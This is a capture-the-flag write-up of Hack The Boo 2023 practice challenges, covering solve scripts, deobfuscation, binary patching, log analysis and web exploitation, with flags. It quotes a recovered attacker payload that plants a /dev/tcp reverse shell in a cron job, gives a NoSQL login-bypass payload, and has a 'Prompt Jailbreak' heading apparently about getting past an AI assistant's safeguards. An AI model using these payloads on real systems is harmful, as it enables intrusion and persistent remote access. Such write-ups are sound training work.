#ctf #hack-the-boo-2023-practice #crypto #copilot #forensics #phishing #cyberchef #windws-batch #deobfuscate #web-logs #teler #Reversing #detect-it-easy #ghidra #ghidra-patch-instruction #web #nosql #sqli #Source-Code-Analysis #python-flask #xss #command-injection #python-pickle #deserialization #pwn #pwngdb 

# Notes

Best score


# Tools

## Copilot

### General




### Prompt Jailbreak



```
XXX
```
## Python packages

```bash
pip install pycryptodome
```
# Crypto

## Hexoding

> Copilot can do this

```python
from base64 import b64decode

HEX_CHARS = '0123456789abcdef'
B64_CHARS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/'


def from_hex(encoded):
    data = 0
    for char in encoded:
        data <<= 4
        data += HEX_CHARS.index(char)
    return data.to_bytes((data.bit_length() + 7) // 8, 'big')


def from_base64(encoded):
    padding_length = encoded.count('=')
    encoded = encoded.replace('=', '')
    bits = ''.join([bin(B64_CHARS.index(c))[2:].zfill(6) for c in encoded])
    data = bytes([int(bits[i:i+8], 2) for i in range(0, len(bits), 8)])
    return data[:-padding_length]


def main():
    with open('output.txt', 'r') as f:
        data = f.read()

    hex_encoded = data.split()[0]
    base64_encoded = data.split()[1]

    first_half = from_hex(hex_encoded)
    second_half = from_base64(base64_encoded)

    FLAG = first_half + second_half
    print(FLAG.decode())

main()
```

```bash
HTB{kn0w1ng_h0w_t0_1d3nt1fy_3nc0d1ng_sch3m3s_1s_cruc14l_f0r_a_crypt0gr4ph3r___4ls0_d0_n0t_c0nfus3_enc0d1ng_w1th_encryp510n!}
```
## SPG

> Copilot can do this

```python
from hashlib import sha256
import string
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from base64 import b64decode

ALPHABET = string.ascii_letters + string.digits + '~!@#$%^&*'

def decode_password(password):
    master_key = 0
    for i in range(len(password)):
        if password[i] in ALPHABET[:len(ALPHABET)//2]:
            master_key += 2**(i)
    return master_key.to_bytes((master_key.bit_length() + 7) // 8, 'little')

def main():
    with open('output.txt', 'r') as f:
        lines = f.readlines()
        password = lines[0].split(': ')[1].strip()
        ciphertext = b64decode(lines[1].split(': ')[1].strip())

    decryption_key = sha256(decode_password(password)).digest()
    cipher = AES.new(decryption_key, AES.MODE_ECB)
    plaintext = unpad(cipher.decrypt(ciphertext), 16)

    print(f'{plaintext.decode()}')

main()
```

```
HTB{00ps___n0t_th4t_h4rd_t0_r3c0v3r_th3_m4st3r_k3y_0f_my_p4ssw0rd_g3n3r4t0r}
```

# Forensics

## Spooky Phishing

### Decode javascript




### Decode payload data

Variables are in `<input>` value



> HTB{sp00ky_ph1sh1ng_w1th_sp00ky_spr34dsh33ts}

## Bat Problems

### Decode batch file

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Bat Problems]
└─$ file payload.bat
payload.bat: DOS batch file, ASCII text, with very long lines (1740)
```





```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Bat Problems]
└─$ python ../../huntress-ctf-2023/Batchfuscation/batch_deobfuscator/batch_deobfuscator/batch_interpreter.py --file payload.bat|tee payload.bat.dec
```





> `HTB{0bfusc4t3d_b4t_f1l3s_c4n_b3_4_m3ss}`

## Vulnerable Season

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Vulnerable Season]
└─$ file access.log
access.log: ASCII text, with very long lines (485)
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Vulnerable Season]
└─$ cat access.log|grep htb -i
82.179.92.206 - - [28/Sep/2023:05:14:17 -0400] "GET /wordpress/learn/ruubikcms/ruubikcms/website/scripts/jquery.lightbox-0.5.js.php HTTP/1.1" 404 437 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36"
```
### Find potential attackers

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Vulnerable Season]
└─$ cat access.log|/opt/sectools/blue-team/ids/teler -c ~/configs/teler/apache.yaml
```



### Recover commands





Payload :

```bash
upg_datatable&field=field:exec:echo "sh -i >& /dev/tcp/82.179.92.206/7331 0>&1" > /etc/cron.daily/testconnect && Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev:NULL:NULL
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Vulnerable Season]
└─$ echo $(Nz=Eg1n;az=5bDRuQ;Mz=fXIzTm;Kz=F9nMEx;Oz=7QlRI;Tz=4xZ0Vi;Vz=XzRfdDV;echo $Mz$Tz$Vz$az$Kz$Oz|base64 -d|rev)
HTB{L0g_@n4ly5t_4_bEg1nN3r}
```

# Reversing

## CandyBowl

### Flag in strings

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/CandyBowl/rev_candybowl]
└─$ file candybowl
candybowl: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=30c0582cde593ca34da52bc9919191f64b7bf0fa, for GNU/Linux 3.2.0, not stripped

┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/CandyBowl/rev_candybowl]
└─$ diec candybowl
ELF64
    Library: GLIBC(2.2.5)[DYN AMD64-64]
    Compiler: gcc((Debian 10.2.1-6) 10.2.1 20210110)[DYN AMD64-64]
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/CandyBowl/rev_candybowl]
└─$ ltrace ./candybowl
time(0)                                                                                                                          = 1698104450
srand(0x65370482, 0x7ffeef0ffdf8, 0x7ffeef10c080, 0x7f31344a0840)                                                                = 1
puts("Reaching into the candy bowl..."Reaching into the candy bowl...
)                                                                                          = 32
sleep(3)                                                                                                                         = 0
rand(0, 0, 0, 0x7f313439b9e3)                                                                                                    = 0x7c9d7352
printf("Your candy is... '%s'. Enjoy!\n", "Sour Patch Kids"Your candy is... 'Sour Patch Kids'. Enjoy!
)                                                                     = 43
+++ exited (status 0) +++
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/CandyBowl/rev_candybowl]
└─$ strings candybowl|grep htb -i
HTB{4lw4y5_ch3ck_ur_k1d5_c4ndy}
```

## GhostInTheMachine
### Instruction patching

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/GhostInTheMachine/rev_ghostinthemachine]
└─$ file machine
machine: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e5eff6eb6722f66059e9b6eca11cc28c292eef71, for GNU/Linux 3.2.0, not stripped

┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/GhostInTheMachine/rev_ghostinthemachine]
└─$ diec machine
ELF64
    Library: GLIBC(2.2.5)[DYN AMD64-64]
    Compiler: gcc((Debian 10.2.1-6) 10.2.1 20210110)[DYN AMD64-64]
```

Entry point



`ghost()` will randomize the flag



Patch Instructions for `LEA`

Remove the offset from address to make it do nothing 







```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/GhostInTheMachine/rev_ghostinthemachine]
└─$ ~/Desktop/machine
HTB{ex0rc1s1ng_th3_m4ch1n3}
```

## Dynamic Secrets

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Dynamic Secrets]
└─$ file dynamic_secrets
dynamic_secrets: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7cb1d1190f842ea429f16f589d9d8a8834751d9b, for GNU/Linux 3.2.0, not stripped

┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Dynamic Secrets]
└─$ diec dynamic_secrets
ELF64
    Library: GLIBC(2.2.5)[DYN AMD64-64]
    Compiler: gcc((Ubuntu 9.4.0-1ubuntu1~20.04.2) 9.4.0)[DYN AMD64-64]
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Dynamic Secrets]
└─$ ltrace ./dynamic_secrets
:(
+++ exited (status 1) +++
```

```bash
┌──(bravosec㉿fsociety)-[~/ctf/hacktheboo-2023-practice/Dynamic Secrets]
└─$ ~/Desktop/dynamic_secrets 13
Correct Password :)
```
# Web

## CandyVault

### NoSQL Injection

Login to get the flag



It uses mongo DB, which is NOSQL



Since it `especially` allows `json` data, try a simple login bypass payload

Change content type to `json` first

Payload : 

```http
Content-Type: application/json
```

```sql
{"username": {"$ne": null}, "password": {"$ne": null} }
```



> HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}

## SpookTastic

### Source code analyze

> `/api/register` 

Accepts user input, then it will create a socket.io session based on user IP



> `blacklist_pass()`

Filter checks if user input contain `script`, which was attempted to defend XSS



> `start_bot()`

It uses **selinium** webdriver to automate a browser to view `host/bot?token=XXX`

Flag will be send to the socket after it receive an alert



> `/bot`




### XSS - Bypass blacklist

XSS without using `script`

```

```






> `HTB{4l3rt5_c4us3_jumpsc4r35!!}`

## PumpkinSpice


### Source code analyze

> `entrypoint.sh`

Flag is at filesystem `/` with random name



> `challenge\app.py`

User can submit addresses to `/host/addresses`



A browser will visit and render `/host/addresses`



